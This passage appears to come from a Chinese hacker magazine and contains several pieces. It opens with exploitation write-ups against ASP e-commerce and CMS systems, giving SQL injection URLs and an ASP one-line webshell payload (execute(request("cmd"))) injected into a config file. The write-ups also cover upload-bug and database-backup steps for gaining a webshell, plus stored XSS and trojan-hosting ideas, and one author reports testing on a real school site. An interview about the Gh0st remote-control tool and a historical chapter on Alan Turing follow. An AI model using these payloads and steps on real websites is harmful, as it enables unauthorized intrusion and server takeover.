再次证明了理论和实践是一致的，确实存在注入漏洞，继续注入。接着的步骤与常规手动注射 SQL 语句差不多，猜解管理员的密码和 id 比较烦琐，这里就不全部演示了，只给出一个实例语句。

判断是否存在 admin 表可执行：

http://localhost/opensoft.asp?soft_id=54 and 1=(select username,password from admin)

返回正常说明存在 admin 表，且表中含有 username 和 password 字段。按照如此步骤操作下去就可以得到管理员的 md5 密码和 id 了。

3、备份数据库插马+后台配置文件插马

发现了注入，得到了管理员密码账号，登录后台想着的就是拿 webshell 了。简单看了下后台，登录验证采用 session 验证，那么 cookie 欺骗就没戏了，如果管理员密码强悍点，就不好办了。

看到数据库备份，直接上传一个 jpg 木马然后备份数据即可得到 shell。在本地测试成功获得，看到这个立马高兴了，赶紧到目标站点（母校分站）去测试，可是发现数据库备份没有办法执行，具体原因咱先不分析，想想其它办法。

继续查看后台文件，发现网站配置文件过滤不严格，在文件 Admin_Set.asp 第 7-51 行。我简单说下功能，就是直接获取输入的配置文件并写入到 Include/Gaobei_setup.asp 文件中去。嘿嘿……没有任何过滤不就可以插马了？找到 gaobei_setup.asp，代码如下：

```asp
<%
Gaobei_Title= "高贝系统 V 3.0"
……省略了一些代码……
%>
```

看到没，提交的数据写入到双引号之间了。试着在标题处写入 <%execute(request("cmd"))%>，然后访问一下 http://127.0.0.1/Include/Gaobei_setup.asp，出现如图 7 所示的错误，说


图 7 语句没有闭合

明语句没有办法闭合。

失败了……经过思考，发现将语句修改为 1"%><br><%execute(request("cmd"))%><br><%' 可以成功插入。这里简单说下原理：1 可以随便是 title 内容；双引号是为了闭合前面的双引号；<br> 是换行；后面就是一句话；接着再 <br> 换行；关键是要用最后一个单引号注释掉后面所有的代码，这样就可以了。

再次访问 http://localhost/include/Gaobei_Setup.asp，熟悉的页面出现了，如图 8 所示。链接一下看看，成功了！如图 9 所示。

4、Upfile_Photo.asp 上传漏洞

想到如果无法进入后台就不能拿 shell，于是就硬着头皮继续读代码，找上传漏洞。可是发现基本上所有与上传相关的文件都加了验证是否为管理员，最后才终于让我在 upfile_photo.asp 发现了上传漏洞。这里就不分析了，是常见的上传漏洞类型，我也不用 nc 提交了，直接使用 domain3.5 来进行利用，大家按照如图 10 所示进行设置就是了。


图 8 插入成功


图 9 链接成功


图 10 上传漏洞利用


图 11 上传得到 webshell

提交后成功上传，访问 http://localhost/UploadFile/Product/20088615950380.asp 获得 webshell，如图 11 所示。好了，分析和利用就到此结束！

## 三、结束语

脚本分析也是一门考验耐心的活，要学会灵活应用。本文关键在思路上，内容兴趣不是重点。大家有疑问可以到论坛找我交流。

编辑点评：

本文关键在于思路，从判断漏洞的存在，到漏洞的利用可行性分析，到最后的构造利用，思路非常清晰。


# 网软漏洞连连看之电子商务网上购物网站自助建站管理系统正式版

图 9 4.andy（94.爱你☆）

从本文你可以学到：

- 1、网软多处漏洞分析
- 2、漏洞的利用

网软的程序猿们总体来说还是不错的，对程序的漏洞还是有修补，在豪华购物版之后就发布了一个正式版，源码包中程序说明书里有这样一段话：“进行了多处安全更新，加入了防 SQL 注入程序，电子商务网上购物网站自助建站管理系统的会员系统、后台管理均使用 MD5 不可逆加密，数据库做了下载处理，最新版中我们对程序代码进行了全面的检查，修补了暴库漏洞、SQL 注入漏洞。”那就让我们来看看正式版的安全性怎么样吧！先来看看豪华版的漏洞是否还存在（理论上应该被修补了）！

# 一、注射漏洞

## 1、Sheach.asp 的搜索型注入漏洞

sheach.asp 文件被改名为 reseach.asp，其中有如下代码：

```vbscript
anclassid=request("anclassid")
searchkey=request("searchkey")
jiage=request("jiage")
action=request("action")
selectname=request("selectname")
if InStr(searchkey,"'")>0 then
response.write"<script>alert(""非法访问!"");location.href=""../index.asp"";</script>"
response.end
end if
if anclassid<>"" then
if not isnumeric(anclassid) then
response.write"<script>alert(""非法访问!"");location.href=""../index.asp"";</script>"
response.end
end if
end if
if jiage<>"" then
if not isnumeric(jiage) then
response.write"<script>alert(""非法访问!"");location.href=""../index.asp"";</script>"
response.end
end if
end if
if action<>"" then
if not isnumeric(action) then
response.write"<script>alert(""非法访问!"");location.href=""../index.asp"";</script>"
response.end
```

貌似过滤了，看到这么多的非法访问，还真差点把我唬住，我们继续往下看：

```vbscript
if jiage="" then '如果价格等于空
sql2="searchkey="&searchkey&"&anclassid="&anclassid
select case request("anclassid")
case "0"
sql1=" bookname like '%"&searchkey&"%' "
case else
sql1=" bookname like '%"&searchkey&"%' and anclassid="&request("anclassid")&" "
end select
'价格为空，执行到这里
else '如果价格不为空向下执行
sql2="searchkey="&searchkey&"&anclassid="&anclassid&"&jiage="&jiage&"&action="&action&"&selectname="&selectname
if anclassid<>0 then '如果 anclassid 不为空向下执行
```

```vbscript
select case action
case "1"
sql1=" bookname like '%"&searchkey&"%' and (shichangjia<"&jiage&" or huiyuanjia<"&jiage&" or vipjia<"&jiage&") and anclassid="&anclassid&" "
case "2"
sql1=" pingpai like '%"&selectname&"%' and (shichangjia<"&jiage&" or huiyuanjia<"&jiage&" or vipjia<"&jiage&") and anclassid="&anclassid&" "
case "3" '如果 action=3 向下执行
sql1=" bookcontent like '%"&selectname&"%' and (shichangjia<"&jiage&" or huiyuanjia<"&jiage&" or vipjia<"&jiage&") and anclassid="&anclassid&" "
'这里也将 selectname 变量带入查询语句
end select
'如果 anclassid 为空向下执行到这里
Else '如果 anclassid 为空向下执行
select case action
case "1"
sql1=" bookname like '%"&searchkey&"%' and (shichangjia<"&jiage&" or huiyuanjia<"&jiage&" or vipjia<"&jiage&") "
case "2"
sql1=" pingpai like '%"&selectname&"%' and (shichangjia<"&jiage&" or huiyuanjia<"&jiage&" or vipjia<"&jiage&") "
case "3" '如果 action=3 则执行
sql1=" bookcontent like '%"&selectname&"%' and (shichangjia<"&jiage&" or huiyuanjia<"&jiage&" or vipjia<"&jiage&") "
'这里也将 selectname 变量带入查询语句
end select
end if
end if
call sss()
set rs=server.CreateObject("adodb.recordset")
sql="select * from products where "&sql1&" order by adddate desc"
rs.open sql,conn,1,1 '这里拼接查询语句，执行数据库操作，漏洞产生了！
Response.Write (sql) '这里是为了方便我们构造语句，所以将语句输出！
```

漏洞产生了！Response.Write(sql) 这里是为了方便我们构造语句，所以将语句输出！

```vbscript
if rs.eof and rs.bof then
Response.Write "<p align=center>对不起，没有查询到您需要的商品！</p><br>"
Response.Write ("ni mamade")
Else
```

对不起，没有查询到您需要的商品！</p><br>"
Response.Write("ni mamade")

省略不相关代码

不过仔细分析一下，selectname 变量（商品详细介绍）没有过滤，漏洞继续存在！我们构造变量 jiage 不为空，action=3，searchkey=%（也可以是其它值）就可以利用了。我构造的语句为：

http://127.0.0.1/research.asp?anclassid=0&searchkey=%&jiage=1000&action=3&selectname=%' and 1=1 and '%'='%，访问后结果如图 1 所示。


图 1 and 1=1 and ''=' 判断

再修改语句为：

http://127.0.0.1/research.asp?anclassid=0&searchkey=%&jiage=1000&action=3&selectname=%' and 1=2 and '%'='%，访问后结果如图 2 所示。


图 2 and 1=2 and ''=' 判断

进行判断后接着就是构造查询语句了，这个我在 0805 期《网软漏洞连连看之网软购物豪华版》中有过详细的讲解，这里就不再仔细说了！

## 2、getpwd2.asp 的文本型注入

这个漏洞和 lookuppass.asp 的漏洞一样，是属于输入框里的文本注入。为了方便查看，我就把它另存为，并修改了输入框的宽度，检测语句如图3所示。

### 3. GetMailok.asp（邮件订阅）中的字符型注入漏洞

该文件相关漏洞代码如下：

```asp
mail=request.querystring("mail")
type1=request.querystring("do")
if type1=1 then
exec="select * from dyemail where email='"&mail&"'"
set rs=server.createobject("adodb.recordset")
rs.open exec,conn,1,3
if not rs.eof then
memo="此信箱已经订阅过，请换其他信箱"
else
rs.addnew
rs("email")=mail
rs("type")=1
rs.update
memo="您的信箱"+mail+"<BR>订阅信息成功！"
rs.close
set rs=nothing
end if
```

是 request.querystring 方式接受变量的，我们可以直接在地址栏里来注入。不过这里的邮箱有个要求，是没有订阅过的（因为这里没有判断邮箱的真实性，我们可以自己任意构造！），但是不知道什么原因，这里用经典的 and 1=1 and ''=' 和 and 1=2 and ''=' 却判断不出来，而直接猜表却可以进行判断！

# 二、跨站漏洞

入库文件 Fksave.asp 代码如下：

```asp
if request.form("name")="" then
response.Write "<script LANGUAGE='javascript'>alert('请填写您的姓名');history.go(-1);</script>"
response.End
end if
if request.form("content")="" then
response.Write "<script LANGUAGE='javascript'>alert('请填写您的留言与建议');history.go(-1);</script>"
response.End
end if
if request.form("temp")="" then
response.write "<script language='javascript'>" & VbCRlf
response.write "alert('非法操作!');" & VbCrlf
response.write "history.go(-1);" & vbCrlf
response.write "</script>" & VbCRLF
else
iname=request.Form("name")
iqq=request.Form("qq")
iemail=request.Form("email")
iurl=request.form("url")
'取得变量值
isex=request.form("sex")
icontent=request.form("content")
set rss=Server.CreateObject("ADODB.RecordSet")
sqls="select * from webinfo"
rss.open sqls,conn,1,3
view=rss("view")
set rs=server.createobject("adodb.recordset")
rs.open "select * from guestbook where (id is null)",conn,1,3
rs.addnew
rs("name")=iname
rs("qq")=iqq
rs("email")=iemail
rs("url")=iurl
rs("sex")=isex
rs("content")=icontent
rs("time")=now()
if view<>"0" then view="1"
rs("online")=view
rs.update
'更新数据库
rs.close
set rs=nothing
```

这样看来没有任何过滤，我们可以提交任意字符，这时我想到了插入一句话木马得到 webshell，结果在 ./bbs/data/ 下找到了数据库，是 asp 格式的，可是用 Access 打开发现有 <%not down%> 表，看来只有放弃这条路了。

出库文件 viewreturn.asp 代码如下：

```asp
rs.open "select * from guestbook where online=1 order by id desc", conn,3,2
if rs.eof and rs.bof then
%>
<table width="380" border="0" align="center" cellpadding="4" >
<tr>
<td height="40" align="center"> <p>还没有任何留言！</p>
</td>
</tr>
</table>
<%else%>
<%
rs.PageSize =5 '每页记录条数
iCount=rs.RecordCount '记录总数
iPageSize=rs.PageSize
maxpage=rs.PageCount
page=request("page")
per_page=rs.PageSize
```

省略部分代码

```asp
<TD width="67" height="23" align="center" bgcolor="f1f1f1"><font color="#FF0000"><strong>第<%=rs("id")%>条</strong></font></TD>
<TD width="464" align="right">
<%if rs("qq")<>"" then%>

<%=rs("qq")%>
<%end if%>
&nbsp;
<%if rs("email")<>"" then%>
<a href="mailto:<%=rs("email")%>" target="_blank" title=Email:<%=rs("email")%>></a>
<a href="mailto:<%=rs("email")%>" target="_blank" title=Email:<%=rs("email")%>><%=rs("email")%></a>
<%end if%>
<%if rs("url")<>"" then%>
<a href="<%=rs("url")%>" target="_blank" title=主页:<%=rs("url")%>></a>
<a href="<%=rs("url")%>" target="_blank" title=主页:<%=rs("url")%>><%=rs("url")%></a>
<%end if%>
<strong><font color="<%=flzhbt%>">内容：</font></strong><font color="<%=flzhzt%>"><%=unHtml(rs("content"))%></font></TD>
```

这里只有留言内容用 unHtml 过滤了一下，我们可以任意利用，就不截图了（就一个框框也没有什么意思，更高级的正在学习中……）！

# 三、进入后台

打开 manageadmin.asp 就看到：

```asp
username=request("username")
id=request("id")
action=request("action")
```

我偷偷地笑啊！再往下看，郁闷了！

```asp
<%if action="adduserpost" then
if request("username")="" or request("password")="" then
response.write "<script language='javascript'>"
response.write "alert('请输入要添加的管理员名称和密码');"
response.write "location.href='manageadmin.asp';"
response.write "</script>"
else
Set rs=Server.CreateObject("ADODB.Recordset")
sql="SELECT * FROM admin"
rs.Open sql,conn,1,3
rs.Addnew
rs("admin")=Request("username")
rs("password")=md5(Request("password"))
'rs("flag")=Server.Htmlencode(Request("flag"))
rs.Update
rs.Close
Set rs=Nothing
Response.Redirect"manageadmin.asp?action=detail&username="&Request("username") '页面跳转！
end if
else
end if%>
```

图7 图片挂马

图8 iframe 挂马

这个文件是管理员用来审核用户留言的，结合上边的跨站漏洞，本来想是否可以用自动执行表单来添加一个管理员用户。不过当看见有个页面跳转，而且跳转过去的页面是用来设置权限的，就知道没有办法利用了，但是还是可以给管理员挂马。

用户可以给管理员发送信息，调用文件为：mymsg_handl.asp，代码如下：

```asp
sql="select * from sms"
set rs=server.createobject("adodb.recordset")
rs.open sql,conn,1,3
rs.addnew
rs("name")="admin"
neirong=request.form("neirong")
neirong=replace(neirong,"=======","<font color=darkgray>=======")
rs("neirong")=neirong
rs("riqi")=now()
rs("fname")=request.cookies("cnhww")("username")
rs.update
rs.close
set rs=nothing
```

而在 admin/handl.asp 文件中有如下代码：

```asp
set rs=Server.CreateObject("ADODB.recordset")
sql="select * from sms where (name='管理员' or name='admin') and zuti='0' order by riqi desc"
```

```asp
rs.open sql,conn,1,3
---------- 省略部分代码 ----------
do while not rs.eof and pages>0
neirong=rs("neirong")
riqi=rs("riqi")
isnew=rs("isnew")
fname=rs("fname")
id=rs("id")
```

图9 文件头欺骗

图10 上传成功

图11 备份文件

这个利用起来就更加简单了，想干什么就可以干什么（我用了 iframe 挂马，不过显示为空白，不知道为什么？！）

后台还有备份数据库的地方，当然想到的是：上传改名后的小马，然后备份！来到“网站设置”－“LOGO 上传”，不过这里上传文件要用到文件头欺骗，如图9、图10所示。上传成功后记下文件名再去备份就可以了，如图11所示。访问文件，当看见如图12所示的错误提示，表明你已经成功拿到 WEBSHELL 了。

图12 成功写入一句话木马

# 四、写在最后

漏洞的修复也说过很多次了，这里也就不再多说，如果真的需要就找找以前的杂志吧！为了写文章，看了不少网软的网站源代码，漏洞不少而且非常严重，可是不知道为什么还贵得吓人。很多系统用的核心代码都是一样的（比如：房地产的各种版本，企业建站的各种版本，用的都是一样的代码，《“网软天下”网尽天下的伤痛》一文作者对漏洞代码分析得非常详细），不过是换了副行头而已！

“研究漏洞是为了更好地去防护它！”只希望你看了之后不要一笑而过！文章就到这里了，网上检测也就不去了，重要的是学会技术和方法，有什么不懂的欢迎多多交流，可以到论坛找我，id：94.嫂你☆。

编辑点评：

作者写了一系列的类似系统的漏洞挖掘，其指出很多系统的核心代码相似度非常高，出现很多类似的漏洞，希望本篇能引起相关用户和程序员的重视。

Lizaib

终于拿到一次机会，俺成了临时记者去采访 Amxku 牛人！也许大部分读者并不知道 Amxku 是谁，即使经常访问“sebug 漏洞公告”以及在“红狼”论坛灌水的朋友都不太知道其管理员是谁。并且，Amxku 也是曾经的“中国被黑站点统计系统”的创始人哦！

对于这个名字，大家为什么感觉陌生呢？归根到底，主要是 Amxku 一直低调行事。顺便说下他喜欢 SWAN 的话：“低调是最牛X的炫耀方式”。那么 Amxku 在网络与现实中是怎样的人呢？他开发众多程序的背景是什么呢？且看从采访中走近低调的 Amxku，认识他，并熟悉他……

**Lizaib：Amxku，听说你专注于 PHP 开发，对么？**

**Amxku：**嗯，是的。主要关注 PHP、LINUX、信息安全，目前服务于上海的一家安全咨询公司。

**Lizaib：听坏坏说你是“红狼”的创始人之一，你是啥时候加入的？**

**Amxku：**我是创始人之一，我们是 06 年 3 月开始筹划这个站点的。其他创始人分别是在自轮回、孤独坏坏、冷漠。

**Lizaib：嗯，记得当时我就是从红狼开始起步的，常灌水，那时候原创的氛围特好。什么时候开始有做“Sebug 漏洞公告”（www.sebug.net）站点的想法呢？**

**Amxku：**是 06 年 6 月开始的吧，我当时就想做一个收集吧，没想太多，后来在一些朋友的建议下，才把它进行了一些标准化。

**Lizaib：国内外的漏洞都有收集，未来会不会打算弄成程序化的查询呢？参与翻译、编辑、收集的工作除了你以外还有哪些牛人呢？**

**Amxku：**弄成程序化的查询这个是肯定的，现在已经开放了一些相关的接口了。在维护方面，都是一些朋友在业余时间帮忙，在这里也谢谢他们了。

**Lizaib：未来的时间打算做一个团队吗？站点不错，设计上提供了 RSS 输出等。**

**Amxku：**未来的变化太多了，哈哈，做一个专业的团队是我一直的想法。站点在设计上主要以人为本，人性化才是 WEB 系统的核心。

**Lizaib：做 sebug 一方面是个人的兴趣，那么还有深层的意义吗？**

**Amxku：**说深层点应该算是为相关的用户提供方便吧。看到有很多站点一天到晚被入侵什么的，sebug 也是为他们提供了一些帮助吧。

**Lizaib：刚才在你的博客（www.amxku.net）我才知道，“中国被黑站点统计系统”（www.zone-h.com.cn）也是你建立的，这是什么时候的事情呢？**

**Amxku：**这个系统是我和三尺寒冰在 05 年 8 月建立的，当时我们在武汉做工作室，哈哈。

**Lizaib：对于 zone-h 这样的站点，是否会造成负面的影响啊？比如不同的黑客爱好者相互比排名。**

**Amxku：**嗯，是啊，当时我们没想到这点，所以说这个站点可以说是一个相对失败的站点，现在我也没有参与维护了。

**Lizaib：sebug 的发展过程也困难么？那么多的记录都是人工编辑的，目前的数据库容量多大了？**

**Amxku：**困难肯定是有的，哈哈，现在基本上是人工采编。也有想过用程序采集，但测试后发现效果不怎么好，所以没有用，而且人工的质量也会高一点。现在差不多有 8000 多条记录吧，类似于 milw0rm，用户可以提交漏洞公告。

**Lizaib：sebug 概括了哪些类型的漏洞公告呢？可提供语法搜索精确定位么？**

**Amxku：**主要有基于 OS 的、漏洞类型的。目前还没有提供语法搜索，只是单纯的关键字，对用户来说更方便查询吧。

**Lizaib：今天的互联网，WEB 2.0 的 SNS 横行，你会不会计划更加人性化？sebug 是非营利的么？可否带有商业性质？**

**Amxku：**我希望是可以开放所有的接口，让所有的用户都可以来维护这个数据库，可能会在年底做一次大规模的升级。sebug 是非营利的，没有任何商业性质在里面。不过曾经有想过投放广告，但是这样就体现不出这个数据库的专业性了。

**Lizaib：amxku 比我大么？你从何时才接触计算机安全的呢？**

**Amxku：**我 85 年出生，差不多是在 03 年才接触计算机安全，不过当时什么都不知道，哈哈。

**Lizaib：哪有啊，这么几年成长得很快啊，膜拜下，嘻嘻。完全一个人自学吗？**

**Amxku：**04、05 这两年让我学到了不少东西，完全靠一个人自学是很苦难的，感谢很多朋友的帮助。当时在 GodKiller 学到了很多东西，不知道你听过 GodKiller 这个小组没？哈哈。

**Lizaib：嗯，没听说过 GodKiller 小组，请前辈赐教。你真是牛人啊，熟悉 PHP、C++、WEB 攻防、LINUX、风险评估……你还精于哪些专业？**

**Amxku：**C++ 倒是不怎么会，就会点 VC、DELPHI。GodKiller 老大是小轩吧？当时也就一个简单的站点，还有一个群吧？我就在这个群里认识了影子、小蛋、雨夜……好多好多朋友，现在也见不到几个了。小轩把我当小弟一样看，教了我很多东西。

**Lizaib：NB 的上帝杀手（GodKiller：www.godexp.com）哦，网站好像打不开了，你在那里呆过一段时间吧？看网上历史信息，小组写出的作品技术含量也很高的，为什么没有深入发展呢？**

**Amxku：**嗯……05 年在那里呆了大半年，后来因为工作各忙各的，小组为什么没有发展下去，我也不是太清楚。

**Lizaib：很酷的经历！除了现在待的“红狼”，之前还是哪个安全小组的成员呢？**

**Amxku：**“中国防黑网”（www.fanghei.com），是我当时在 CSN 小组时的站点，三尺寒冰现在自己做公司了，可能没有时间弄这个网站了吧。

**Lizaib：你在各个小组都在学习，这段期间都有一位对你产生深远影响的朋友吧？当时主要学习哪方面的技术呢？**

**Amxku：**朋友很多，小轩和三尺寒冰是对我影响最大的朋友。在各个小组时，主要是学习 LINUX、VC、PHP。在小轩的忽悠下，我还去学了 CCNA、CCNP。哈哈，现在想想，还是很值得。

**Lizaib：在我出版黑手图书那会儿，“红狼”的 Gh0st 远控在水区特火，这是一款开放源代码的不错东东，你也参与开发了吗？**

**Amxku：**主要的代码编写还是逐云客（cooldiyer）完成的，我只是参与了设计和写了几个小的模块。

**Lizaib：嗯，cooldiyer 是一个很棒的牛人。我觉得 gh0st 与你的想法一样，简约、简单，你个人对这款远控如何评价呢？看上去市面上也有以 gh0st 源码为基础开发的作品，你知道这事不？**

**Amxku：**简单是我一直的想法。gh0st 的优点不应该我来说，要让用过这个软件的朋友来评价，哈哈。市面上以 gh0st 源码为基础开发的作品有很多，还有出售的。

**Lizaib：我在水区的截图看到集群控制特赞，即同时控制多个摄像头，酷！未来小组除了开发远控，还将开发什么类型的软件呢？**

**Amxku：**集群控制也没有什么，网上已经有类似的软件了，多摄像头可能是这个软件的一个亮点吧。未来小组计划开发基于应用层的扫描软件，因为我们有 SEBUG 这个强大的数据库做支持，我们正在设计，可能在年底或明年会发布吧。

**Lizaib：基于应用层的扫描软件貌似国内的启明星辰有开发这样的产品，但他们没有公布出来。小组的这个项目将由几位负责呢？**

**Amxku：**启明星辰的软件是商业性的，我们是基于免费的，到时间也会考虑开源，这个一切都还在计划当中，项目的开发人员暂时不便透露。软件设计还需要花费比较长时间，这样更方便我们后期的开发和维护。

**Lizaib：冒昧问下，你所在的公司是不是“红狼”友情链接的“安泰”？**

**Amxku：**不是，那是自在轮回的公司，我是在上海一家安全咨询公司。

**Lizaib：我看到无论是 SEBUG、Zone-H 以及 4SEC 的开发，无不显示出这些产品都是新锐的创意，不可置否，你拥有国际上的前瞻思维。**

**Amxku：**我觉得互联网的核心竞争力就是创新，所以说创新才有发展。一直有走向国际的想法，只是我们现在还没有达到那个层次，以后我们会逐步和国际接轨。

**Lizaib：那倒是，发展的环境决定了一切。对于现在的安全产业，你觉得哪一种的安全是现在的主流？**

**Amxku：**挂马，只要和商业扯上关系的东西总是比较火的。

**Lizaib：你的职业是信息安全风险评估，是否就风险评估为“黑手”读者谈谈一些经验呢？你现在主要为哪类型的公司服务？**

**Amxku：**风险评估最主要的是能够把握几个核心的控制点，具体可参考我博客中写的《风险评估杂谈》(www.amxku.net/talking-about-risk-assessment)，我现在主要为金融、运营商、企业等服务。

**Lizaib：可否让一个普通的读者粗略理解什么是风险评估吗？**

**Amxku：**风险评估就是一个量化的过程。举个简单的例子吧，比如一个企业，合投资 10 万块钱在信息安全这块，风险评估可以帮助他们的是，现在这个企业急需的是杀毒软件还是防火墙。

**Lizaib：这看上去是产品上的安全，人员的安全也需要管吗？**

**Amxku：**安全不仅局限于产品和技术，而管理占到了信息安全的一很大一块，可以说是七成吧。这其中就包括了人员的安全、管理制度、各种信息体系的建立等等，而技术又是为业务服务的，所有的安全技术、制度、体系，都将围绕着业务系统来展开。

**Lizaib：最后，对于“黑手”的新手读者，他们在学习的过程中常常都有困扰，你觉得他们最好如何学习这项安全技术？**

**Amxku：**建议大家首先得定位好，定好目标后，然后再根据自己的目标去一步一步努力实现。谁也不是一步登天的，比如 angel 在学习 PHP 时，就曾把论坛的代码打印出来分析。引用 SWAN 的一句话，“低调是最牛 X 的炫耀方式”，所以，加油吧！

# 黑域传奇

## 黑客编年史

## 第四集

> 说来新鲜，我苦于没有英雄可写。  
> 尽管当今之世，英雄是迭出不穷。  
> 年年有，月月有，报刊上连篇累牍。  
> 而后才又发现，他算不得真英雄。  
> ——拜伦：《唐璜》

他是世界上破解能力最强的黑客，他不仅仅是一个黑客，他还是现代计算机理论的奠基者。翻开任何一本《计算机原理》的书籍，他的名字永远在计算机之父冯·诺依曼之前。他是天才，更是一个传奇，以至于有人说上帝不应该制造这样完美的天才，因此上帝公平地给天才留下了现在看似缺陷的瑕疵，并早早地扼杀了他亲手制造的天才，好似派他来到这个世界就是为了展示智慧的奇迹，就是为了将计算机带给人类；就是为了告诉人类，上帝是如何创造智慧并让人思考的……于是，他成为了人工智能之父，并如同诺贝尔一样，他的名字成为了当今计算机科学领域的最高奖项——图灵奖。

# 第五章节 上帝派来的数学黑客（阿兰·麦席森·图灵）

从某种意义上说，一个人的智力范围越是局限，那么他在某一方面的智力就越容易接近无限。换言之，天才之所以成为天才，是因为他们一方面将自己无限地拉长，拉得细长细长，游丝一般，透明之状，经不起磕碰。所以，大凡天才都是娇气的，如世上所有的珍宝一样。阿兰·麦席森·图灵（Alan Mathison Turing，1912.6.23—1954.6.7）就是这样一位脆弱的天才。

八月末央，北京从七月的雨中泽国恢复了一些燕赵慷慨刚烈之气。距“鸟巢”南部 1 公里处的草坪上，部署了两辆“红旗7”导弹发射车以及雷达系统。这些导弹装备在防护网的保护下，周身覆盖着迷彩网罩，警惕地注意着空中的可疑目标。先进的国产战斗机也将在空中执行巡逻任务。

上个月就在各个地铁口发现了安检设备，工作人员也明显比平时认真许多。几个大学也由于存在奥运场馆，加强了几倍的安保力量。摄像头也增多了不少。

除了应对这些传统的安全威胁外，国内外的一些分裂分子和反华黑客的网络袭击也是防范的重点，而且危害比传统威胁更甚。国家也已经对此做了一些应急措施。效果如何，我们拭目以待。当然最好是顺顺利利的，小编可不想看比赛实况的时候突然来个线路故障，暂停转播什么的。

德国闪电般入侵波兰后，第二次世界大战爆发，1939 年英国正式对德国宣战，开始了两个欧洲帝国的生死决战。虽然在此之前波兰向英国提供了破解 Enigma 密码机的头绪，但是波兰人毕竟没有最终完成军用 Enigma 的破解，而且由于波兰方面提供的破译资料多数属于数学范畴，这对于经历过第一次世界大战的老牌密码破译专家来说是不可理解的。因为在那个时候，语言在密码破译中占有更重要的位置，人们无法想象，一个连德语都不懂的数学专家能够在破译敌方密电中起到什么作用。而这一切直到图灵的出现才最终证明，数学已经成为了密码学领域最重要的一根支柱。

图灵出生于 1912 年 6 月 23 日的英国伦敦，他的整个家族在学术方面有着相当辉煌的成果。家族成员中有三位当选过英国皇家学会会员，图灵的祖父还曾获得剑桥大学数学荣誉学位，不过图灵的父亲却仅仅只是一名大英帝国驻印度的公务员。但图灵显然继承了家族中最优秀的数学细胞，他在 16 岁时就开始研究爱因斯坦的相对论，并开始运用深奥的数学原理独立推导力学定律。或许这注定了这位伟大的数学奇才会成为 Enigma 的终极杀手，也就在图灵研究相对论的那一年，Enigma 之父——谢尔比乌斯离开了人世。

1931 年，图灵考进了剑桥大学，在该大学的“国王学院”专攻数学。剑桥是他这一生学术生涯的起点，那儿有自由的学术环境，他如饥似渴地阅读一切感兴趣的书籍，甚至是刚刚出版上市的大数学家冯·诺依曼的新作《量子力学的逻辑基础》。除了数学与物理之外，他的兴趣比中学时代广泛了许多，例如对哲学也产生了兴趣。他选修了哲学大师维特根斯坦教授的“数学的哲学”，这让图灵的哲学与数学知识在逻辑学上有交汇，也开启了图灵关于人工智能的思考。

此外，对图灵一生产生最重要影响的要数“数学逻辑学”，这是剑桥大学的大数学家罗素和怀特海创立的一门非常抽象、讲究逻辑思维、令人煞费脑筋且望而生畏的学科。

图2 图灵的手迹

数理逻辑学的创建，起源于一个逻辑上的“悖论”。为了让非专业人士都能明白逻辑悖论的含义，哲学家或者数学家喜欢用讲故事的办法来解释它。一个经典的故事是：村子里有位理发师，他只为村子里那些不给自己理发的人理发。现在的问题是，谁为理发师理发？

假定理发师为自己理发，那么依照理发师“只为不给自己理发的人理发”的规定，由此推理得出结论：理发师是不为自己理发的人，这与假定矛盾；或者假定理发师不为自己理发，那么依照理发师“只为不给自己理发的人理发”的规定，由此又推理得出结论：理发师应该为自己理发，这又与假定矛盾。所以，不论怎么假定，也就是说不论谁为理发师理发，都要出现不能自圆其说的结论。

在那以前，数学家们总以为，一个数学问题虽然要找到回答也许很困难，但是理论上总有一个确定的答案。一个数学命题，要么是真的，要么是假的。但是哥德尔的不完全性定理指出，在一个稍微复杂一点的数学公理系统中，总存在那样的命题，我们既不能证明它是真的，也不能证明它是假的。数学家们大吃一惊，发现以往大家认为绝对严明的数学中原来有如此令人不安的不确定性。

每个逻辑学家都在苦苦思索，试图替陷入了危机的数学找到一条出路，他们包括当时在剑桥的贝特朗·罗素（Bertrand Russell）、阿尔弗雷德·怀特海（Alfred Whitehead）、路德维格·维特根斯坦（Ludwig Wittgenstein）这些著名的逻辑学家。在这种环境下，图灵作出了他一生中最重要的科学贡献，在他著名的论文《论可计算数》（On Computable Numbers）中，他提出了日后以他名字命名的虚拟计算机器——图灵机。

图灵机这台完全虚拟的“计算机”忽略了硬件因素，图灵思考的焦点是逻辑结构。图灵在他那篇著名的文章里还进一步设计出被人们称为“万能图灵机”的模型，它可以模拟其他任何一台解决某个特定数学问题的“图灵机”的工作状态。“图灵机”想象使用一条无限长度的纸带子，带子上划分成许多格子。如果格里画条线，就代表“1”；空白的格子，则代表“0”。

图灵想象这台“计算机”还具有读写存储功能：既可以从带子上读出信息，也可以往带子上写信息。计算机仅有的运算功能是：每把纸带子向前移动一格，就把“1”变成“0”，或者把“0”变成“1”。“0”和“1”代表着在解决某个特定数学问题中的运算步骤。“图灵机”能够识别运算过程中的每一步，并且能够按部就班地执行一系列的运算，直到获得最终答案。

图3 图灵想象的电脑

图灵的文章从理论上证明了制造出通用计算机的可能性。几年之后，美国的阿塔纳索夫在 1939 年果然研究制造了世界上的第一台电子计算机 ABC。这台机器采用了二进制位，电路的开与合分别代表数字 0 与 1，可以运用电子管和电路执行逻辑运算。ABC 是“图灵机”的第一个硬件实现，看得见，摸得着。而冯·诺依曼不仅在上个世纪 40 年代研制成功了功能更好、用途更为广泛的电子计算机，并且为计算机设计了编码程序，还实现了运用纸带存储与输入。到此，天才图灵在 1936 年发表的科学预见和构思得以完全实现。

与图灵一样有天赋的冯·诺依曼看过图灵的论文后极为赞赏，惺惺相惜，极力邀请图灵毕业后到普林斯顿高等研究院工作，做他的研究助手。然而图灵深爱着剑桥大学，执意要回到母校任教，令冯·诺依曼教授惋惜不止。惋惜的远不止冯·诺依曼，不知有多少学者发出叹息，当年两位科学奇才没能走在一起。尽可以想象，由于两大世纪天才的合作，数学、计算机科学等会获得怎样的发展？“1 加 1 定会大于 2”，两颗灿烂的巨星一处发光，显然会将科学的天空照耀得更加明亮。

但是，当图灵在剑桥刚刚打算做一名优秀的教师和学者之时，1939 年 9 月 4 日，英国对德国宣战，开始了第二次世界大战漫长的拉锯战。而图灵则在第二天就被军方应招入伍，来到了远离城市的乡村，一个名为布莱切利的庄园。在这里，英国军方安排给图灵的工作就是破译密码。虽然此前英国军方已经能够运用一些德军的操作漏洞破译部分 Enigma 的密码，但是这个漏洞随时可能会被德国人修补，因此英国军方希望能够在德国人修补漏洞前，找到真正彻底攻破 Enigma 的方法。

图4 布莱切利的庄园

